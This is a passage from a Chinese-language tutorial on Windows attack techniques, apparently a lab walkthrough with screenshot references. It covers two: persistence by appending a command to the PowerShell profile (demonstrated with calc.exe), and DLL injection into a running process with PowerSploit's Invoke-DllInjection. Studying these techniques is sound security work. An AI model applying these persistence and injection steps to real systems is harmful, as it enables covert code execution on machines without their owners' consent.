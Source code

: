 ```
判断路径是否存在
Test-Path $profile
```

![1575364366615](Privilege%20Escalation.assets/1575364366615.png)

这里已经创建过一次，所以现在提示为true

使用powershell命令在对应的profile文件中插入命令（这里插入的是Start-Process calc.exe）

```
New-Item -Path $profile -Type File –Force
$string = 'Start-Process calc.exe'
$string | Out-File -FilePath $profile -Append
```

再次打开Powershell.exe时会弹出计算器。

![1575364807553](Privilege%20Escalation.assets/1575364807553.png)

## Process Injection-T1055

进程注入指的是在活动进程的地址空间中执行任意代码的方法。比如说在powershell.exe进程或者是notepad.exe进程中执行任意代码。

这里使用的是Powersploit中的Invoke-DllInjection.ps1工具：

```
. .\Invoke-DllInjection.ps1
Invoke-DllInjection -ProcessID 896 C:\Users\Administrator\Desktop\fortest.dll
```

![1575365764159](Privilege%20Escalation.assets/1575365764159.png)
